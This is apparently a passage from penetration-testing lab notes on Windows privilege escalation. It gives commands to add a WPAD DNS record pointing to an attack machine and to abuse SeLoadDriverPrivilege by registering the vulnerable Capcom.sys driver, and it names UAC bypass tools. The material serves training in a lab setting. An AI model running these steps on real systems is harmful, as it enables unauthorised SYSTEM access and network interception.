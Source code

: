 Next, we add a WPAD record pointing to our attack machine.

```powershell
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

### Print Operators

grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, we can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group.

It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges.

> Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".
{: .prompt-info }
#### Add Reference to Driver

Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.

``` batch
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```


#### Verify Driver is not Loaded

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

#### Verify Privilege is Enabled

Run the `EnableSeLoadDriverPrivilege.exe` binary.

``` batch
C:\htb> EnableSeLoadDriverPrivilege.exe
```
